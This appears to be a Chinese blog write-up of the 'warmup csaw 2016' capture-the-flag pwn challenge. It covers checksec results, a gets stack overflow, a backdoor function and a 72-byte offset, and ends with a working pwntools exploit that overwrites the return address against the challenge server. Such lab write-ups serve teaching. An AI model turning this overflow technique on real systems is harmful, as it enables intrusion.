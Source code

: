 ```yaml
---
author: 
  name: Zephyr
title: warmup csaw 2016
date: 2022-3-19 20:12:04
permalink: /pages/1e944742e534d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# warmup csaw 2016

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec warmup_csaw_2016
[*] '/root/warmup_csaw_2016'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

![jhdaasw](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jhdaasw.png)

存在溢出函数gets，另外通过查找函数表发现后门函数sub_40060D

![fasecxz](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/fasecxz.png)

## 思路分析

本题比较简单，一开始将后门函数的地址就打印了出来，可以接收该地址，再通过gets函数溢出将返回地址修改为该值即可获得flag。

## 确定偏移量

使用cyclic，简单测试一下即可得知本题偏移量为0x40+8=72

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/warmup_csaw_2016/warmup_csaw_2016'
io = remote('node4.buuoj.cn', 27868)
# io = process(pwnfile)
padding = 0x40+8
io.recvuntil(b':')
backdoor = int(io.recvuntil(b'\n', drop=True), 16)  # 接收地址
print("backdoor:{0}".format(hex(backdoor)))
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```